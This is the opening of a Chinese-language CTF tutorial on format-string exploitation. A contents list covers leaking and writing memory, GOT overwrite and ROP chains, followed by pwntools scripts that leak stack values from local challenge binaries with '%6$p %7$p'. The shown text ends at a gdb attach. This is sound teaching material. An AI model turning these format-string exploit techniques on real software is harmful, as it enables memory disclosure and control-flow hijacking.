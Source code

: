 ```yaml
---
layout: post
tags: [pwn]
title: "fmt 利用手法"
author: wsxk
date: 2025-3-24
comments: true
---
```



- [1. leak data](#1-leak-data)
  - [1.1 data存储在栈上](#11-data存储在栈上)
  - [1.2 指向data的指针存放在栈上](#12-指向data的指针存放在栈上)
  - [1.3 data和指向data的指针不放在栈上，但是fmt在栈上](#13-data和指向data的指针不放在栈上但是fmt在栈上)
- [2. write data](#2-write-data)
  - [2.1 指向data的指针不在栈上，但fmt在栈上](#21-指向data的指针不在栈上但fmt在栈上)
    - [2.1.1 特例: 写一个超大值](#211-特例-写一个超大值)
- [3. leak and write](#3-leak-and-write)
  - [3.1 fmt在栈上，一次printf，泄露某个地址的值，并写入另一个地址](#31-fmt在栈上一次printf泄露某个地址的值并写入另一个地址)
  - [3.2 fmt在栈上，一次printf写got表,劫持控制流](#32-fmt在栈上一次printf写got表劫持控制流)
  - [3.3 fmt在栈上，二次printf改ret值](#33-fmt在栈上二次printf改ret值)
  - [3.4 fmt+rop](#34-fmtrop)
    - [3.4.1 fmt+rop:但是PIE](#341-fmtrop但是pie)
    - [3.4.2 fmt+rop+PIE:但是不能输入$符号](#342-fmtroppie但是不能输入符号)

# 1. leak data<br>
## 1.1 data存储在栈上<br>
对于我们要泄露的data直接存储在栈上，我们可以下断点在 格式化字符串漏洞的函数的 被调用点，这样可以观察栈的布局，得知要打印第几个参数,打印即可<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
binary_path = './babyfmt_level1.0'

p = process(binary_path)
p.recvuntil(b"Send your data!")
p.sendline(b"%6$p %7$p")
p.recvuntil(b"0x")
secert1 = int(p.recvuntil(b" ").strip(b" "),16)
secert2 = int(p.recvline().strip(b"\n").ljust(8,b"\x00"),16)
print(p64(secert1)+p64(secert2))

p.interactive()
```

## 1.2 指向data的指针存放在栈上<br>
对于我们要泄露的data的指针存储在栈上，我们可以下断点在 格式化字符串漏洞的函数的 被调用点，这样可以观察栈的布局，得知要打印第几个参数,打印即可<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
binary_path = './babyfmt_level2.1'

p = process(binary_path)
p.recvuntil(b"Send your data!")
gdb.attach(p,"b *$rebase(0x14CE)")
pause()

```